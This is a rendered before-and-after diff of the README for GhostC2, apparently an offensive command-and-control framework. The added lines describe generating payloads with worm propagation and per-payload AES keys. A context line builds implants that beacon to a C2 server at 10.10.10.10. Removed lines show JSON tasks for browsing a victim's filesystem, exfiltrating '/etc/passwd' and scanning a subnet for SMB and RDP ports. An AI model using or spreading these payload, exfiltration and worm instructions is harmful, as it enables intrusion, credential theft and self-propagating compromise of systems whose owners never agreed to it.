

Before and after one commit to wolfwashere/GhostC2, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -113,6 +119,14 @@ To also compile to `.exe`:
 python tools/generate_payload.py   --c2 http://10.10.10.10:8080/beacon   --result http://10.10.10.10:8080/result   --exe
 ```
 
+To enable worm propagation:
+
+```bash
+python tools/generate_payload.py --worm
+```
+
+> Payloads now include a unique AES key and register it with the server on first contact.
+
 ---
 
 ## 📝 Example JSON Tasks
@@ -171,41 +185,9 @@ GhostC2 now supports an interactive file browser for any active beacon, fully co
 * Handles missing/ghost files gracefully
 * Uses structured JSON tasks for full stealth
 
-### Command (via API or dashboard):
-
-```json
-{
-  "action": "browse",
-  "path": "/"
-}
-```
-
-or
-
-```json
-{
-  "action": "browse",
-  "path": "C:\\"
-}
-```
-
-**To use:**
-
-* Click the 📁 "Browse" button for any beacon in the dashboard
-* Navigate folders, see files/sizes, and explore the target system
-
 ---
 
 ## 📂 File Exfiltration
-
-### Command (via API or dashboard):
-
-```json
-{
-  "action": "getfile",
-  "path": "/etc/passwd"
-}
-```
 
 Agent will:
 
@@ -217,16 +199,6 @@ Agent will:
 ---
 
 ## 🔍 Network Scanning
-
-### Command (via API or dashboard):
-
-```json
-{
-  "action": "scan",
-  "subnet": "192.168.0.0/24",
-  "ports": [80, 443, 445, 3389]
-}
-```
 
 Agent will:
 
````
Also changed, not shown: other parts of README.md (+15 -32 lines).
